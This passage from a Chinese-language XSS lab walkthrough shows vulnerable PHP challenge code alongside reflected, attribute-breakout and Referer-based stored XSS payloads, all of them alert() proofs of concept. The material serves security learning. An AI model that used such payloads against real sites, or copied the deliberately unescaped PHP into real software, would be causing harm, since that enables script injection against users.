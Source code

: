 

```
?name=<script>alert('XSS')</script>
```

####  第二题 输入框闭合

```bash
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "没有找到和".htmlspecialchars($str)."相关的结果.".'...
```



```bash
?keyword="><script>alert('XSS')</script>
```

#### 第3题

```bash
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "没有找到和".htmlspecialchars($str)."相关的结果.".'...
```



### 存储型XSS

存储型：持久型，常见的就是在博客留言板、反馈投诉、论坛评论、将恶意代码和正文都存入服务器的数据库。每次访问都会触发恶意代码。

既然存储在页面我们就可以利用浏览器的工具修改页面元素属性，从而触发

#### 第一题 Referer

```bash
ini_set("display_errors", 0);
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
....留言....
input name="t_ref"  value="'.$str33.'" type="hidden">
```



##### 查看网页源代码

```bash
<input name="t_ref"  value="http://10.223.20.120/" type="hidden">
```

> 尖括号过滤为空，隐藏属性，`t_ref`是Referer

将输入框显示出来，`type='text'`

```bash
" type='text' onclick=alert('XSS')>//
```
